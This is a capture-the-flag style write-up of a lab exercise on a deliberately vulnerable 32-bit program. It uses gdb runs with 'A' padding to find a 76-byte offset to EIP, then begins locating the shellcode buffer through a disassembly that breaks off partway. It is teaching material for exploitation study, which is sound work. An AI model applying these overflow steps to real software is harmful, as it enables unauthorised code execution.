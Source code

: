 ## Find offset

Lets Crash program with 90 x "A" + 4 x "B".

Re-run the programm with overlong arguments; you see some 0x4141 on the stack (Hex code for A). Nothing to see from the 4x"B".

```sh
(gdb) run `python -c 'print "A" * 90 + "BBBB"'` test
Starting program: /root/challenges/challenge11/challenge11 `python -c 'print "A" * 90 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Looks like it is crashing with EIP=0x41414141. But we want to have EIP=0x42424242. Lets remove
some "A" bytes, and try again:

Crash program with 76 x "A":
```
(gdb) run `python -c 'print "A" * 76 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge11/challenge11 `python -c 'print "A" * 76 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Perfect, EIP is exactly 0x42424242. Therefore, the offset is 76 bytes.

## Find buffer base address

We need to find the address of the buffer where our shellcode is stored.
This buffer is `argv[1]`, or `char *username` in the function `handleData()`.

Therefore we can just break anywhere in `handleData()`, and print the address
of the `username` parameter.

Check disassembly of handleData:
```sh
root@hlUbuntu32aslr:~/challenges/challenge11# gdb -q vulnerable
Reading symbols from vulnerable...(no debugging symbols found)...done.
(gdb) disas handleData
Dump of assembler code for function handleData:
   0x080485bd <+0>:	push   ebp
   0x080485be <+1>:	mov    ebp,esp
   0x080485c0 <+3>:	sub    esp,0x58
   0x080485c3 <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080485ca <+13>:	sub    esp,0xc
   0x080485cd <+16>:	push   DWORD PTR [ebp+0xc]
   0x080485d0 <+19>:	call   0x804857b <checkPassword>
   0x080485d5 <+24>:	add    esp,0x10
   0x080485d8 <+27>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485db <+30>:	push   DWORD PTR [ebp+0x8]
   0x080485de <+33>:	push   0x8048781
   0x080485e3 <+38>:	push   0x8048785
   0x080485e8 <+43>:	lea    eax,[ebp-0x4c]
```